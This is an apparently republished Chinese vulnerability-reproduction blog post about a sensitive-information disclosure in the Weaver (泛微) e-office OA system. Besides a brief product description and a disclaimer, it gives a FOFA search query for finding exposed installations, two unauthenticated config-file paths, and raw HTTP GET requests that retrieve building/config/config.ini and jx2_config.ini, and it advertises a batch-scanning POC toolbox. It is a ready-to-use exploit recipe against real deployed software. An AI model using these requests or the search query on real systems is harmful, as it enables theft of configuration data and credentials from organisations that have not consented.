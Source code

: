 #  泛微e-office系统存在敏感信息泄露 附POC软件   
南风徐来  南风漏洞复现文库   2024-02-20 23:37  
  
@[toc]  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. 泛微e-office系统简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
泛微e-office系统是标准、易用、快速部署上线的专业协同OA软件,国内协同OA办公领域领导品牌,致力于为企业用户提供专业OA办公系统、移动OA应用等协同OA整体解决方案。  
## 2.漏洞描述  
  
泛微e-office系统是标准、易用、快速部署上线的专业协同OA软件,该系统存在敏感信息泄露漏洞  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
泛微e-office  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3azGTPugr8SO2PHpGuJJ67IG2MK2kKjlfp4B3U6n7XbamALPghyEJcn9DEFaHef9gDPl6IOwsqrmQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
泛微e-office系统存在敏感信息泄露  
## 4.fofa查询语句  
  
app="泛微-EOffice"  
## 5.漏洞复现  
  
漏洞链接： http://127.0.0.1/building/config/config.ini  
  
http://127.0.0.1/building/backmgr/urlpage/mobileurl/configfile/jx2_config.ini 漏洞数据包：  
```
GET /building/backmgr/urlpage/mobileurl/configfile/jx2_config.ini HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Host: 127.0.0.1
Connection: close
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3azGTPugr8SO2PHpGuJJ67IdLvZqicPaRYQCYU53vMaacUnQJENaB6UJribqZ4d9xySHDSwHZLcGkOQ/640?wx_fmt=jpeg&from=appmsg "null")  
```
GET /building/config/config.ini HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3azGTPugr8SO2PHpGuJJ67IBNAt9BmhS1ZhZicepUTWOhKgSqZTtCT0ULWZnOy4xYxvFXF7s4QBSyQ/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3azGTPugr8SO2PHpGuJJ67INn6d6kaY8qnCgyXydYABSdhDcNz2CbYQm2I37ibGD4popOHyAasKNfQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3azGTPugr8SO2PHpGuJJ67I0RhUppoO47W60tGYlATmhn2ZcjJyBMdem1l0SC95EwRepCVmxWGoOQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3azGTPugr8SO2PHpGuJJ67IGK9JmzFfIfFicL9wbRak90RSwyFRZmwhq0mdwvfc0ia8uQHDg0v8m6hg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3azGTPugr8SO2PHpGuJJ67I5YGVxIGowibMqUflJ4wyYMmA1jGFMTpq0LfcYYILulZLkcHsQddxOaQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3azGTPugr8SO2PHpGuJJ67IuaDI8bPvzpaau5JNtpaJ4vWNlKkicGZpibeGic7WpoRPIr1n6Vs7ghJiaw/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
请关注官网更新补丁: https://www.e-office.cn/  
## 8.往期回顾  
  
[亿赛通-数据泄露防护(DLP)44个接口存在远程命令执行漏洞 附POC软件](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247485256&idx=1&sn=70c20d907235e4fbf0b0e8ba53afe8e6&chksm=974b8a4fa03c03593bae16f80b3c580dd2e6512c5c54c26220990616e75ff69af0ae76ec677e&scene=21#wechat_redirect)  
  
  
[Panalog大数据日志审计系统libres_syn_delete.php存在命令执行漏洞 附POC软件](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247485242&idx=1&sn=4144bba6c8f989ea3f2b3da8a29f0ea4&chksm=974b8a3da03c032bf005a175afd5c89a4db4450f6623205b0551d7e6db8207a8a9713c82bed1&scene=21#wechat_redirect)  
  
  
  
  
